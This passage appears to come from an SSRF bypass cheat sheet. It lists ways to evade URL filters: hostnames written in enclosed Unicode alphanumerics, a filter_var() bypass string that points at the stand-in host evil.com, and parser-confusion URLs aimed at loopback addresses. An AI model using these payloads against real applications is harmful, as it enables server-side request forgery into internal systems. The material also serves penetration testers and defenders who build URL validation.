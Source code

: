 ### **Bypass using enclosed alphanumerics**

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### **Bypass filter\_var() php function**

```
0://evil.com:80;http://google.com:80/
```

### **[Bypass against a weak parser](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)**

```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![](<../../attachments/image (23).png>)
